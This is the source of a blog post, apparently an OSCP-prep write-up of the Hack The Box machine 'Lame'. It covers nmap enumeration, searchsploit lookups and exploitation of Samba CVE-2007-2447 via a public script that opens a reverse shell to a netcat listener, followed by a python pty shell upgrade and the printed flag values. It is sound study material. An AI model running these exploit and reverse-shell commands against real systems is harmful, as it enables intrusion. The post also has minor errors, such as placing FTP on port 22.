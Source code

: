 ```yaml
---
layout: single
title: "HTB Lame Writeup"
date: 2023-04-24 12:08:00 -0600
categories: htb
tags:
  - htb
---
```


This first blog post feels like it needs some introduction and a little context as to why I am writing this. I have recently been studying for the OSCP and discovered [TJnull's OSCP-like list of HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159). I read this in some blog post, the best way to learn is to explain it yourself. That said, I have about 3 years of full-stack development experience and have participated in a number of CTFs as a hobby. Recently watching some [IppSec](https://www.youtube.com/@ippsec) made me want to just jump into some of these HTB machines. Rather than waiting to compelte the course and go through some OSCP labs, why not jump into these machines and struggle my way through them. I'm not afraid to ask for help and I want to do a deep dive into some concepts outside of the machine to mix it up and not feel like an average blog. All that said, lets jump into **Lame**, a machine I completed a couple weeks ago!

## Enumeration
Going into this machine was my first attempt at executing a lot of these commands so I will clean up some of the struggling to keep this straightforward. Lets start by performing an *nmap* scan with `-sC` for default scripts, `-sV` for version enumeration and write to a file for later revisiting. Generally I perform a top TCP scan while running a full TCP & UDP scan in the background and reference them later if they reveal any other relevant information.
{% highlight shell %}
pr1sm@kali:~$ sudo nmap -sC -sV -v 10.10.10.3 -oA lame

Nmap scan report for 10.10.10.3
Host is up (0.13s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

...

{% endhighlight %} 

The most obvious thing that jumped out to me from this result was the FTP server on TCP port 22 running allowing anonymous login. Lets login to this server and see if there is anything to see:
{% highlight shell %}
pr1sm@kali:~$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:pr1sm): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||28652|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
{% endhighlight %}

Nothing enumerated from the FTP server leads me to the SMB server that is running on the server. We should be able to enumerate some user info and other system information using *enum4linux*, a Windows SMB enumeration tool. Running this will take a little bit, so I started it and let it run in the background:
{% highlight bash %}
pr1sm@kali:~$ enum4linux -a 10.10.10.3
{% endhighlight %}

The next thought was to see if there were any known vulnerabilities for `vsftpd 2.3.4`, using searchsploit there were a couple hits:
{% highlight bash %}
pr1sm@kali:~$ searchsploit vsftpd 2.3.4
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution              | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
------------------------------------------------------- ---------------------------------
{% endhighlight %}

In an attempt to keep this a little more brief, I spent about 20-30 minutes trying to exploit this vector. Potentially some configuration is keeping me from performing the exploit. Analyzing the script makes it look very simple and attempts at a manual exploit and a Metasploit attempt came up dry.

## Vulnerability
The next major service on the server is an SMB server running on *Samba 3.0.20*. Looking into known vulnerabilities with *searchsploit* gives a few results:
{% highlight shell %}
pr1sm@kali:~$ searchsploit Samba 3.0.20
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Comm | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                  | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)          | linux_x86/dos/36741.py
------------------------------------------------------- ---------------------------------
{% endhighlight %}

It seems like a heap overflow vulnerability for this service is exploitable. This would probably be very simple through Metasploit, but I personally find that a lot of critical thinking can be stripped by resorting to Metasploit and would rather understand the vulnerability a little more rather then just plug into Metasploit. Looking up the CVE of this vulnerability reveals `CVE-2007-2447`. I found a [script](https://github.com/amriunix/CVE-2007-2447) that can perform this exploit.

At some point I would like to be able to understand what exactly is happening hear, but some processing issue in the username field allows RCE on the server allowing to get a shell. Lets start buy listening for a shell on port `5000`
{% highlight bash %}
pr1sm@kali:~$ nc -lvp 5000
{% endhighlight %}

Now we can execute the script and see if we get a shell:
{% highlight bash %}
pr1sm@kali:~$ ./usermap_script.py 10.10.10.3 445 10.10.14.3 5000

[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
{% endhighlight %}

After waiting a few moments a connection has been made on our local shell!
{% highlight bash %}
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.3] 58952
whoami
root
{% endhighlight %}

From here, I'd like to upgrade the shell (at the time I wasn't very sure how to do it so I wanted to figure it out even if it wasn't required here). First we need to know if *python* or *python3* is in the `PATH`
{% highlight bash %}
which python
/usr/bin/python
{% endhighlight %}

Now we can run now spawn a *bash* shell with python:
{% highlight bash %}
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/#
{% endhighlight %}

At this point all we have to do is navigate and get the flags.
{% highlight bash %}
root@lame:/# cat /root/root.txt
0f3ba91a9e6bf9b3dae54e16c4d345b4
root@lame:/# cat /home/makis/user.txt
63cd83e01146eaaff864d7651ef5f908
{% endhighlight %}

## Conclusion
This box wasn't difficult in the sense that it was an advanced exploit, but I think it serves as a decent introduction to HTB machines and getting comfortable with tools. Althought the thought process is simple, originally exploiting this machine was difficult stumbling through commands and being able to string everything together. Especially the process of upgrading the shell, listening on ports, and idenitifying vulnerabilities. All of these were very basic tasks but it was a challenge to figure out the best way to do all of this. Going forward, I would like to do a small deep dive on a concept that I can expand my knowledge and hopefully help someone out. I hope as I write more of these they get a little more streamlined and polished, but I have to start somewhere. Until next time...
